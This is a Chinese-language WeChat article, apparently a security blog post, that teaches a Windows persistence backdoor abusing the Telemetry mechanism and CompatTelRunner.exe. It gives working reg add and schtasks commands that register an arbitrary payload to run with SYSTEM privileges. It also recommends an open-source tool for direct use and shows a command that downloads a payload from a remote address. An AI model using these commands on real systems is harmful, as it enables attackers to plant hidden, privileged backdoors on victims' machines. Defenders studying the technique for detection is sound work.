 #  windows持久化后门之遥测诊断技术

原创 比心皮卡丘 [ 暴暴的皮卡丘 ](javascript:void\(0\);)

**暴暴的皮卡丘** ![]()

微信号 gh_3aa935a28263

功能介绍 分享互联网IT技术、互联网圈、三观等

____

___发表于_

Windows Telemetry 介绍  

Windows Telemetry（Windows遥测）是指Microsoft
Windows操作系统中的一种数据收集和传输机制，用于收集有关系统和应用程序的使用情况、性能数据以及其他诊断信息。该机制旨在帮助Microsoft更好地理解和改进Windows操作系统的性能、稳定性和用户体验。

Windows遥测通常包括以下几个方面：

  * 使用数据：收集关于用户如何使用操作系统和内置应用程序的数据。这可能包括使用频率、功能使用情况、设置配置等信息。

  * 性能数据：收集关于系统性能的数据，例如启动时间、应用程序响应时间、资源利用率等。这些数据有助于评估和改进系统的整体性能。

  * 错误报告：收集有关系统和应用程序发生错误或崩溃的信息。这些错误报告对于Microsoft修复软件中的漏洞和改进系统的稳定性非常有帮助。

  * 配置信息：收集关于操作系统配置、硬件配置和其他相关设置的信息。这有助于Microsoft了解不同硬件和软件环境中的系统行为。

Windows遥测的目的是通过分析这些数据来改进Windows操作系统，提高用户体验，并提供更好的性能和稳定性。

          

如何实现windows telemetry

CompatTelRunner.exe 是Windows操作系统中的一个进程，主要与兼容性和更新相关的任务有关，该二进制可执行程序存储在以下位置：

Java  
C:\Windows\System32  
  
---  
  
以下是一些与 CompatTelRunner.exe 相关的重要信息：  

  * 任务：CompatTelRunner.exe 的主要任务之一是收集和发送关于计算机硬件和软件兼容性的信息给Microsoft。这有助于Microsoft了解用户环境中可能存在的问题，以便改进和更新Windows系统。

  * 兼容性数据收集：该进程负责在系统上运行一些兼容性扫描，并收集有关硬件、驱动程序、应用程序和系统设置的信息。这些信息可以用于判断计算机是否适合升级到新的Windows版本，或者是否可能遇到兼容性问题。

  * Windows更新：CompatTelRunner.exe 还涉及到Windows更新的一些任务。它可能会检查系统的更新状态，帮助确保系统处于最新的安全和兼容性状态。

  * 定时运行：CompatTelRunner.exe 通常在系统处于空闲状态时运行，以避免影响用户体验。它可能以计划任务的形式在后台运行。

  * 资源占用：有时，用户可能会注意到 CompatTelRunner.exe 进程在后台运行时占用了一定的系统资源，尤其是在某些情况下可能会导致CPU使用率增加。

因此我们可以使用CompatTelRunner 执行从特定注册表项检索的各种命令来实现持久性后门

          

持久化利用思路

持久化思路步骤如下：

  1. 在注册表“ TelemetryController ”项下创建注册表子项

  2. 创建将执行任意命令后门写入到“ Command ”键值

  3. 创建“ DWORD ”键值设置为 Nightly，数据值设置为“1”

  4. 通过 schtasks 二进制文件执行“ Microsoft Compatibility Appraiser ”计划任务 （Microsoft Compatibility Appraiser 是 Windows 操作系统中的一个组件，它与兼容性扫描和计算机硬件、驱动程序、应用程序等方面的信息收集有关。这个组件通常与 CompatTelRunner.exe 进程一起工作，共同完成兼容性分析的任务）

上述思路可以通过以下命令来实现：

Java  
reg add HKLM\SOFTWARE\Microsoft\Windows
NT\CurrentVersion\AppCompatFlags\TelemetryController\Persistence  
reg add "HKLM\Software\Microsoft\Windows
NT\CurrentVersion\AppCompatFlags\TelemetryController\Persistence" /v Command
/t REG_SZ /d "C:\Users\Peter\Downloads\demon.x64.exe"  
reg add "HKLM\Software\Microsoft\Windows
NT\CurrentVersion\AppCompatFlags\TelemetryController\Persistence" /v Nightly
/t REG_DWORD /d 1  
schtasks /run /tn "\Microsoft\Windows\Application Experience\Microsoft
Compatibility Appraiser"  
  
---  
  
![]()

执行上述命令将导致注册表发生以下修改，如下所示：

![]()

可以通过提权来实现windows Telemetry建立持久化后门

 **Telemetry恶意脚本利用**

根据上述利用思路，github上有个大佬写了一个针对性的利用脚本，可以下载下来直接使用；Telemetry是一个开源利用此类持久化后门技术的恶意程序，开源地址为https://github.com/Imanfeng/Telemetry，

![]()

它通过攻击方能够使用本地路径来运行任意负载来实现持久性方法

Java  
telemetry.exe install /path:C:\Users\peter\Downloads\demon.x64.exe  
  
---  
  
![]()

也可以从远程链接下载到磁盘执行

Java  
telemetry.exe install /url:http://10.0.0.3:9000/demon.x64.exe  
  
---  
  
![]()

执行后，该工具将创建所需的注册表结构，如下图所示：

![]()  

植入后门程序将在“ CompatTelRunner.exe ”进程的上下文中执行

![]()

而CompatTelRunner.exe默认会以计划任务 system权限运行，因此此时植入的后门程序也会以system权限执行

![]()

          

补充信息

           
Microsoft Compatibility Appraiser、Windows Telemetry 和 CompatTelRunner.exe 在
Windows 操作系统中都与兼容性、数据收集以及系统性能有关，但它们各自有不同的任务和功能。以下是它们之间的关系：

 **Microsoft Compatibility Appraiser:**

  * 任务：主要用于扫描系统的硬件、软件、驱动程序等兼容性信息，并生成关于系统状态的兼容性报告。

  * 兼容性评估：通过分析系统的配置和安装的应用程序，Microsoft Compatibility Appraiser 可以提供关于是否可以顺利升级到新版本 Windows 或者安装特定更新的信息。

  * 任务计划：在系统中以任务计划的形式运行，通常与 CompatTelRunner.exe 相关联。

 **Windows Telemetry:**

  * 任务：主要用于收集关于操作系统的使用情况、性能数据、错误报告等信息，以帮助 Microsoft 了解和改进 Windows 操作系统。

  * 数据类型：包括用户的操作习惯、系统性能数据、错误和崩溃报告等。    

  * 遥测收集：Windows Telemetry 提供了关于系统性能和用户体验的数据，而这些数据可能包括 Microsoft Compatibility Appraiser 收集的兼容性信息。

 **CompatTelRunner.exe:**

  * 任务：主要负责在后台运行，执行兼容性评估和数据收集任务。

  * 关联组件：CompatTelRunner.exe 与 Microsoft Compatibility Appraiser 相关联，它实际上是运行 Microsoft Compatibility Appraiser 的进程。

  * 系统检查：在系统空闲时，CompatTelRunner.exe 可能会运行，执行与系统兼容性相关的扫描，并将数据传递给 Windows Telemetry 进行分析。

综合来看，这三者的关系是，Microsoft Compatibility Appraiser 是负责扫描和生成兼容性报告的组件，它可能由
CompatTelRunner.exe 触发，而 Windows Telemetry 则是用于收集广泛的操作系统使用和性能数据的机制。这些组件共同帮助
Microsoft 更好地了解用户的系统，提供更好的服务、改进系统性能，并为用户提供更好的体验。  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# windows持久化后门之遥测诊断技术

原创 比心皮卡丘 [ 暴暴的皮卡丘 ](javascript:void\(0\);)

轻触阅读原文

![]()

暴暴的皮卡丘

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

